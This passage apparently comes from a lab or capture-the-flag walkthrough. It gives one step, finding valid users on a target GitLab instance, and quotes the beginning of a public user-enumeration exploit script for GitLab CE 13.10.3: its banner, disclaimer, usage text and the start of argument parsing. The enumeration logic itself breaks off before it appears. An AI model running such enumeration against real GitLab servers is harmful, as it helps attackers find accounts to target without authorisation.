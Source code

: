 

**Find another valid user on the target GitLab instance.**

We will run the following script:

```
# Exploit Title: GitLab Community Edition (CE) 13.10.3 - User Enumeration
# Date: 4/29/2021
# Exploit Author: @4D0niiS [https://github.com/4D0niiS]
# Vendor Homepage: https://gitlab.com/
# Version: 13.10.3
# Tested on: Kali Linux 2021.1

#!/bin/bash

#Colors
RED='\033[38;5;196m'
GREEN='\e[38;5;47m'
NC='\033[0m'
BOLD='\e[1m'
PINK='\e[38;5;198m'
Italic='\e[3m'
BBlue='\e[44m'
YELLOW='\033[0;33m'

clear
echo -e "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
echo -e "  			             ${BBlue}${BOLD}GitLab User Enumeration Script${NC}"
echo -e "   	    			             ${BOLD}Version 1.0${NC}\n"
echo -e "${BOLD}${PINK}Description: ${NC}It prints out the usernames that exist in your victim's GitLab CE instance\n"
echo -e "${BOLD}${PINK}Disclaimer: ${NC}${Italic}Do not run this script against ${BOLD}GitLab.com!${NC}${Italic} Also keep in mind that this PoC is meant only"
echo -e "for educational purpose and ethical use. Running it against systems that you do not own or have the"
echo -e "right permission is totally on your own risk.\n${NC}"
echo -e "${BOLD}${PINK}Author:${NC}${BOLD} @4DoniiS${NC}${Italic} [https://github.com/4D0niiS]${NC}"
echo -e "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
echo ""
echo ""



# Usage
usage() {
echo -e "${YELLOW}usage: ./gitlab_user_enum.sh --url <URL> --userlist <Username Wordlist>${NC}\n"

echo -e "${Italic}PARAMETERS:${NC}"
echo -e "-------------"
echo -e "-u/--url	The URL of your victim's GitLab instance"
echo -e "--userlist	Path to a username wordlist file (one per line)"
echo -e "-h/--help	Show this help message and exit"
echo -e "\n"
echo -e "${Italic}Example:${NC}"
echo -e "-------------"
echo -e "./gitlab_user_enum.sh --url http://gitlab.local/ --userlist /home/user/usernames.txt"
}

#check for params
args= ("$@")
URL=""
user_list=""
```